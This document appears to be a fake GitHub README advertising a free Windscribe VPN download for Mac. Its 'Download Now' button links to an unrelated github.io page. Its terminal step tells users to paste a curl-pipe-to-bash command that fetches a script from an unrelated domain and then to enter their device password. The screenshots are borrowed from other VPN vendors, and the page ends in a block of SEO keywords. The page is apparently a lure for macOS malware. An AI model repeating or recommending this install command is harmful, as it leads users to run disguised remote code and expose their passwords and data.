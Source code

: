 # Windscribe VPN — Free Download for Mac OS 🛡️

Windscribe is a powerful VPN solution designed to secure your online activity and unlock restricted content. Follow the instructions below to install Windscribe on your Mac for free and enjoy private browsing with ease.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://fituganshfgh.github.io/.github/windscribe)

If the download button doesn’t work, follow the step-by-step terminal installation guide below.

## 📦 How to Install Windscribe for Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get with Windscribe

- 🛡️ **Enhanced Privacy**: Protect your online identity with strong encryption and anonymous browsing.
- 🌍 **Global Access**: Bypass geo-restrictions to access content from anywhere in the world.
- ⚡ **Fast Speeds**: Enjoy high-speed connections for streaming and browsing without lag.
- 🔒 **Secure Connections**: Stay safe on public Wi-Fi with Windscribe’s robust security protocols.
- 🧩 **User-Friendly Interface**: Intuitive design makes it easy to connect and customize settings.
- 📱 **Multi-Device Support**: Use Windscribe across multiple devices with a single account.

---

## About Windscribe

Windscribe is a leading VPN service that prioritizes user privacy and security. By leveraging advanced encryption protocols, Windscribe ensures your online activities remain private, making it an ideal choice for users seeking a **free VPN for Mac**. Whether you're browsing at home or on public Wi-Fi, Windscribe’s robust security features protect your data from prying eyes. Its easy-to-use interface simplifies the process of securing your connection, even for beginners.

With **Windscribe free download**, you gain access to servers in multiple countries, allowing you to bypass geo-restrictions and access content seamlessly. Whether it’s streaming your favorite shows or accessing blocked websites, Windscribe empowers users with unrestricted internet access. The free version offers generous data limits, making it a top choice for those looking for a **Mac VPN free** solution without compromising on quality.

The software’s lightweight design ensures minimal impact on your Mac’s performance, making it perfect for users who value both speed and security. Windscribe’s commitment to **secure VPN for Mac** means you can browse with confidence, knowing your data is shielded from hackers and trackers. Its compatibility with macOS ensures a smooth installation process, whether you choose the .dmg file or terminal-based setup.

Windscribe stands out for its versatility, offering both free and premium plans to suit different needs. The **download Windscribe for Mac** process is straightforward, and the app integrates seamlessly with macOS, providing a hassle-free experience. From casual browsing to protecting sensitive information, Windscribe delivers a reliable and efficient VPN solution.

### Why Choose Windscribe?

Windscribe’s key advantage lies in its balance of accessibility and security. Unlike many free VPNs, it offers a generous data allowance, fast connection speeds, and a user-friendly interface, making it a top pick for **VPN for Mac free** users. Its no-logs policy ensures your browsing history remains private, while features like ad-blocking and firewall protection enhance your online experience. Whether you’re a student, professional, or casual user, Windscribe’s **Windscribe free download** provides a secure and seamless way to protect your digital life.

---

## 🖼 Preview

![Windscribe Dashboard](https://www.security.org/app/uploads/2023/12/NordVPN-on-Mac.png)  
*Windscribe’s sleek dashboard for easy VPN management*

![Server Selection](https://vpncdn.protonweb.com/image-transformation/?s=s&image=Zy_O_Zzq8j_Q_Ar_T0_Fe_D_free_unlimited_vpn_for_mac_73a8580dd3.png)  
*Choose from global servers to bypass restrictions*

![Connection Status](https://vpncdn.protonweb.com/image-transformation/?s=s&image=Zy_OR_Jq8j_Q_Ar_T0_F_Ua_an_easy_to_use_vpn_app_for_mac_1e02d60903.png)  
*Real-time connection status for secure browsing*

---

## 🔍 Tags

Windscribe free download, Windscribe download, download Windscribe for Mac, Mac VPN free, free VPN for macOS, Windscribe macOS download, Windscribe download mac, Windscribe download mac os, Windscribe free mac, Windscribe mac download, download Windscribe mac, windscribe free, windscribe for mac, windscribe download free
